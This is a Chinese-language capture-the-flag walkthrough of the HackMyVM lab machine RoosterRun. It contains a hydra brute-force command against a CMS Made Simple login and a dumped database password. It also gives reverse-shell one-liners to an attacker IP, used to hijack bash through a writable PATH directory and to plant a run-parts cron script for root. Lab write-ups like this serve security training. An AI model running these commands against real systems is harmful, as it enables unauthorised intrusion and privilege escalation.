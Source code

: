 # RoosterRun

2025.03.17 https://hackmyvm.eu/machines/machine.php?vm=RoosterRun

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

80 发现 CMS: CMS Made Simple version 2.2.9.1 找到登陆窗口 http://192.168.5.40/admin/login.php ，在 news 中看到了一个用户名 admin 进行一下爆破：

```
hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: homeandaway
```

找到了管理员密码，登陆到系统，参照 https://www.exploit-db.com/exploits/48742 这里在 FileManager 中可以上传 pthml 文件，进而执行代码。

上传至 upload 文件夹上，然后访问，就会在 kali 上得到反弹的 shell。

发现这个 CMS 的数据库配置文件：

```
www-data@rooSter-Run:/var/www/html$ cat config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'admin';
$config['db_password'] = 'j42W9kDq9dN9hK';
$config['db_name'] = 'cmsms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

但是这个密码不是用户 matthieu 的。

/opt 目录被设置了 acl，进行更详细查看：

```
getfacl -R -s -p / 2>/dev/null

# file: //usr/local/bin
# owner: root
# group: root
user::rwx
user:www-data:rwx
user:matthieu:r-x
group::---
mask::rwx
other::---
```

发现 www-data 用户可以修改 /usr/local/bin , 同时 /usr/local/bin 在 $PATH 中第二项。

在 /home/matthieu/中发现一个脚本 StaleFinder ，其中的 echo 没有使用全局路径，在 /usr/bin 中有 echo，但是 /usr/local/bin 这个在 PATH 中比/usr/bin 位置靠前，可以进行命令劫持。

盲猜 StaleFinder 脚本应该是某个用户执行的定时任务，这里看到第一行 #!/usr/bin/env bash ，会从 path 中查找 bash，这里可以劫持 bash 命令：

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /usr/local/bin/bash
chmod +x /usr/local/bin/bash
```

同时在 kali 上创建监听，等待反弹。

拿到了 user flag:

```
matthieu@rooSter-Run:~$ cat user.txt
32af3c9a9cb2fb748aef29457d8cff55
```

在 /opt/maintenance 中发现 backup.sh 文件，pre-prod-tasks 和 prod-tasks 文件夹对其他用户有写权限，最后执行 /usr/bin/run-parts /opt/maintenance/prod-tasks 中的脚本文件。

向 pre-prod-tasks 中写入 sh 脚本:

```
echo -e '#!/bin/bash\n/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > /opt/maintenance/pre-prod-tasks/run.sh; chmod +x /opt/maintenance/pre-prod-tasks/run.sh
```

/usr/bin/run-parts 默认情况下执行的脚本不能带扩展名，所以在文件执行 cp 后，执行 mv 操作去掉 sh 后缀：

```
matthieu@rooSter-Run:/opt/maintenance/prod-tasks$ mv run.sh run
```

等待 1 分钟，反弹 shell 执行，拿到了最终的 flag:

```
cat root.txt
670ff72e9d8099ac39c74c080348ec17
```
